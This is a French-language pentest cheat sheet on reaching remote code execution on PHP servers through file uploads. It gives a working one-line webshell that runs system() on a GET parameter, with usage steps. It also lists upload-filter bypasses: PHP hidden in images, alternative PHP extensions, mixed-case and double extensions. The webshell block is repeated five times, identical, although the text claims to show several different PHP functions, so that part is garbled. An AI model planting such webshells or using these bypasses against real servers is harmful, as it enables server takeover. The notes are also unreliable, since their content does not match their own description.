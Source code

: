 # PHP

**Facteur de risque** : RCE

## Description

> **PHP: Hypertext Preprocessor**, plus connu sous son sigle **PHP**, est un "langage de programmation" libre, principalement utilisé pour produire des pages Web dynamiques via un serveur HTTP (*Apache, lighttpd, nginx...*).

## Pré-requis

- Le serveur supporte le PHP

- Pourvoir upload des fichiers

- Accéder à ces fichiers

- Les fichiers stockés doivent être exécutés via PHP (même pour les images)
  
  - Impossible de nos jours. La configuration par défaut de PHP consiste à exécuter l'interpréteur PHP uniquement pour les fichiers .php, à l'aide de NGinx, Apache, Lighttpd etc...

## RCE

PHP possède plusieurs fonctions qui permettent d'exécuter des commandes. Les codes PHP suivants permet d'avoir un webshell très simple en utilisant les principaux fonctions de PHP :

```php
<?php echo "Shell";system($_GET['cmd']); ?>
```

```php
<?php echo "Shell";system($_GET['cmd']); ?>
```

```php
<?php echo "Shell";system($_GET['cmd']); ?>
```

```php
<?php echo "Shell";system($_GET['cmd']); ?>
```

```php
<?php echo "Shell";system($_GET['cmd']); ?>
```

Si on accédant à ce fichier, le mot Shell apparaît, il y a de grandes chances que le code a été exécuté côté serveur.

Pour lui envoyer des commandes, ajouter `?cmd=` suivi de la commande souhaité. Lacommande dépendra du serveur (Windows ou Linux).

[Web Shells 101 Using PHP (Web Shells Part 2) | Acunetix](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/)

### Contournement

#### Du code PHP dans un fichier image

Du image (GIF ou JPEG) peut contenir du code PHP. Mais il faut s'assurer que après l'upload, l'image stocké est exécuté avec du PHP. De nos jours, l'interpreteur de PHP n'exécute que les fichiers en .php.

[Setting up PHP-FastCGI and nginx? Don’t trust the tutorials: check your configuration! &raquo; Neal Poole](https://nealpoole.com/blog/2011/04/setting-up-php-fastcgi-and-nginx-dont-trust-the-tutorials-check-your-configuration/)

[security - Can a GIF/JPEG file contain runnable PHP code? - Stack Overflow](https://stackoverflow.com/questions/13250471/can-a-gif-jpeg-file-contain-runnable-php-code)

[PHP security exploit with GIF images - PHP Classes](https://www.phpclasses.org/blog/post/67-PHP-security-exploit-with-GIF-images.html)

#### Extensions PHP

Trouver les extension manquantes qui peuvent être exécutées du côté serveur (ou peuvent être dangereuses du côté client)

| Extension |
| --------- |
| .php      |
| .phtml    |
| .php3     |
| .php4     |
| .php5     |
| .php7     |
| .phps     |
| .php-s    |
| .pht      |
| .phar     |
| .phpt     |
| **.pgif** |
| .phtm     |

htm

shtml

xhtml

cgi

Ajouter d'autres payload utilisant d'autre commandes PHP

## Uppercase some letter(s) of the extension

.pHp, .pHP5, .PhAr...

## Double (or more) extension

Useful to bypass misconfigured checks that test if a specific extension is just present
